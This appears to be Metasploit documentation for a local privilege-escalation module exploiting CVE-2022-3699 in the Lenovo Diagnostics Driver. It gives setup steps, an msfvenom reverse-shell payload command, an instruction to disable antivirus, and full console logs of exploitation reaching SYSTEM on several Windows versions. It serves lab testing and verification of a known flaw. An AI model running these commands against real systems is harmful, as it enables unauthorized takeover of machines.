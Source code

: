 ## Vulnerable Application

### Description
Incorrect access control for the Lenovo Diagnostics Driver allows a low-privileged user the ability to issue device
IOCTLs to perform arbitrary physical/virtual memory read/write.

### Setup

A copy of the vulnerable Lenovo Diagnostics Driver can be downloaded from the github repo that hosts the original PoC
that this module uses: https://github[.]com/alfarom256/CVE-2022-3699/raw/main/LenovoDiagnosticsDriver.sys

To create a service that runs the vulnerable Lenovo driver run the following command:
`c:\Windows\System32> sc.exe create LenovoDiagnosticsDriver type= kernel start= auto binPath= "c:\Windows\System32\drivers\LenovoDiagnosticsDriver.sys" DisplayName=LenovoDiagnosticsDriver`

## Verification Steps

1. Create a shell for an initial foothold:
   `./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.123.1 LPORT=4444 -f exe > shell.exe`
1. Disable Real-time Virus Protection on the Windows 11 test target.
1. Drag shell.exe onto the Windows 11 test target
1. Start msfconsole
1. Do: `use multi/handler`
1. set LHOST and LPORT
1. Launch `shell.exe` on the test target and receive a shell
1. Do `use windows/local/cve_2022_3699_lenovo_diagnostics_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a Meterpreter session as the `NT AUTHORITY\SYSTEM` user.

## Scenarios
All of the following scenarios have a vulnerable version of LenovoDiagnosticsDriver.sys in use.
### Windows 11 21H2 (Build 22000)
```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > run LHOST=192.168.123.1 LPORT=4444 payload=windows/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Sending stage (200774 bytes) to 192.168.123.212
[*] Meterpreter session 17 opened (192.168.123.1:4444 -> 192.168.123.212:49692) at 2022-12-12 12:34:15 -0500

meterpreter > bg
[*] Backgrounding session 17...
msf exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=17 LHOST=192.168.123.1 LPORT=4445

[*] Started reverse TCP handler on 192.168.123.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching msiexec to host the DLL...
[+] Process 4292 launched.
[*] Reflectively injecting the DLL into 4292...
[*] Sending stage (200774 bytes) to 192.168.123.212
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 18 opened (192.168.123.1:4445 -> 192.168.123.212:49696) at 2022-12-12 12:41:32 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFTESTING
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 22H2 (Build 19045)
```
msf exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.133
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.133:50093) at 2023-01-18 01:20:16 -0500

meterpreter > bg
[*] Backgrounding session 8...
msf exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=8 LHOST=172.16.199.1 LPORT=4445

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 432 launched.
[*] Reflectively injecting the DLL into 432...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.133
[*] Meterpreter session 9 opened (172.16.199.1:4445 -> 172.16.199.133:50095) at 2023-01-18 01:20:33 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1809 (Build 17763)
```
msf exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp LHOST=172.16.199.1 LPORT=4444

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.134:51415) at 2023-01-18 11:39:11 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=1 lport=4445

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 3004 launched.
[*] Reflectively injecting the DLL into 3004...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 4 opened (172.16.199.1:4445 -> 172.16.199.134:49708) at 2023-01-18 11:50:37 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FONAECR
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (Build 20348)
```
msf exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=7 lport=4445 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 7028 launched.
[*] Reflectively injecting the DLL into 7028...
[*] Sending stage (200774 bytes) to 172.16.199.132
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 8 opened (172.16.199.1:4445 -> 172.16.199.132:50962) at 2023-01-18 23:49:51 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2019 (Build 17763)
```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.235
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.235:49729) at 2023-01-18 22:08:05 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=1 lport=4445 lhost=172.16.199.1
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.

[*] Launching netsh to host the DLL...
[+] Process 64 launched.
[*] Reflectively injecting the DLL into 64...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.235
[*] Meterpreter session 2 opened (172.16.199.1:4445 -> 172.16.199.235:56717) at 2023-01-18 22:15:46 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-FDV8QFUMFP7
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EXAMPLE
Logged On Users : 8
Meterpreter     : x64/windows
```
